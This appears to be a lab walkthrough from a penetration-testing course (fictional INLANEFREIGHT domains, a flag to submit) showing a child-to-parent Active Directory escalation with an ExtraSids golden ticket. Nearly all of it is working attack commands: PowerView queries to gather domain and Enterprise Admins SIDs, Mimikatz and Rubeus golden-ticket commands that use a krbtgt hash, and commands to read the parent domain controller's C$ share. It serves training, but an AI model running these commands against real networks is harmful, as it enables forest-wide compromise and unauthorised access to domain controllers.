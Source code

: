 ```
```
### The SID for the child domain
PowerView Get-DomainSID function to get the SID for the child domain, but this is also visible in the Mimikatz output above.
```
Get-DomainSID
```
```
/sid:S-1-5-21-2806153819-209893948-922872689
```
### The name of a target user in the child domain (does not need to exist!)
```
/user:hacker
```
### The FQDN of the child domain. [DC] in mimikatz output above
```
/domain:LOGISTICS.INLANEFREIGHT.LOCAL
```
### The SID of the Enterprise Admins group of the root domain.
Get-DomainGroup from PowerView
```
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```
Get-ADGroup cmdlet with a command such as Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL"
```
/sids:S-1-5-21-3842939050-3880317879-2865463114-519
```
## Once we have the above information
### Using Mimikatz or Rubeus 
#### Mimikatz
```
mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```
Confirming a Kerberos Ticket is in Memory Using klist
```
klist
```
Listing the Entire C: Drive of the Domain Controller
```
ls \\academy-ea-dc01.inlanefreight.local\c$
```
Submit the contents of the flag.txt file located in the c:\ExtraSids folder on the ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL domain controller in the parent domain. 
```
type \\academy-ea-dc01.inlanefreight.local\c$\ExtraSids\flag.txt
```
#### Rubeus
```
.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```
Confirming the Ticket is in Memory Using klist
```
klist
```